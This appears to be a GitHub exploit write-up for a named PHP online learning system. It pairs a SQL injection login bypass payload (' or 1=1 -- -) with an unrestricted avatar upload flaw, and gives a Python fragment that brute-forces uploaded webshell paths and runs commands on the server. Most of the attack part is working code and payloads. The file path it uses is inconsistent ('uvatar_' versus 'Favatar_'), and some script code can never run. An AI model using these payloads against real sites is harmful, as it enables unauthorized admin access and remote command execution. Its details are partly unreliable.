 # online-learning-system-v2-sqli-authentication-bypass-file-upload-unauthenticated-RCE
* Exploit title : online-learning-system-v2-sqli-authentication-bypass-file-upload-unauthenticated-RCE
* Vendor Homepage : https://github.com/oretnom23  / https://www.sourcecodester.com/php/14929/online-learning-system-v2-using-php-free-source-code.html
* Software Link : https://www.sourcecodester.com/sites/default/files/download/oretnom23/elearning_v2_0.zip
## Sql injection authentication bypass
* the attacker can bypass admin login from by submitting sql qurey in the username paramater : 
* before the injection
```php
	public function login(){
		extract($_POST);

		$qry = $this->conn->query("SELECT * from users where username = '$username' and password = md5('$password') ");
		if($qry->num_rows > 0){
			foreach($qry->fetch_array() as $k => $v){
				if(!is_numeric($k) && $k != 'password'){
					$this->settings->set_userdata($k,$v);
				}
```
* after the injection
```php
	public function login(){
		extract($_POST);

		$qry = $this->conn->query("SELECT * from users where username = '$username'' or 1=1 -- -' and password = md5('$password') ");
		if($qry->num_rows > 0){
			foreach($qry->fetch_array() as $k => $v){
				if(!is_numeric($k) && $k != 'password'){
					$this->settings->set_userdata($k,$v);
				}
```
it doesn't matter if username supplied is exsists or not the most important thing is the booleon injection (or 1=1) it will return true and let us login without supllying password
everything after this qurey (or 1=1 -- -) will be ignored bc of the comment (-- -)
## file upload
```php
		$save = $this->conn->query($sql);
		if($save){
			if(isset($_FILES['img']) && $_FILES['img']['tmp_name'] != ''){
					$ext = explode('.', $_FILES['img']['name']);
					$fname = 'uploads/uvatar_'.$id.'.'.$ext[1];
					if(is_file('../'.$fname))
						unlink('../'.$fname);
					$move = move_uploaded_file($_FILES['img']['tmp_name'],'../'. $fname);
					if($move){
						$this->conn->query("UPDATE students set avatar = '$fname' where id = $id ");
					}
			}
			$this->settings->set_flashdata('success'," Subject Successfully saved.");
			return 1;
```
* as you see the php code above there is no extenction validation or mime type or magic byte validation you can upload your php malicious directly
* also the script upload your php file to this directory /uploads/ and rename it to 'Favatar_' + the id  + extenction 
```php
$fname = 'uploads/uvatar_'.$id.'.'.$ext[1];
```
* i made simple for loop to bruteforce the id check the python script above
```python
		for i in range(0,rangee):
			try:
				with requests.get(url + "/uploads/Favatar_" + str(i) + ".php?cmd=whoami",allow_redirects=False) as response3:
					if "nikmok" in response3.text and response3.status_code == 200:
						print("\n" + Fore.GREEN + "[+] shell found : " + response3.url +"\n")
						break
						with open("shell.txt",mode="w+") as writer:
							writer.write(response3.url)
					else:
						print( Fore.RED + "[-] shell not found : " + response3.url)
			except requests.HTTPError as exception2:
				print("[-] HTTP Error : {0} ".format(exception2))
```
## RCE ?! : 
* with two these crafted vulnerbilities we can gain remote command exection
## POC
check the python script above
![image](https://user-images.githubusercontent.com/39780283/136836089-db154dd9-6c2b-4850-8695-514623389011.png)
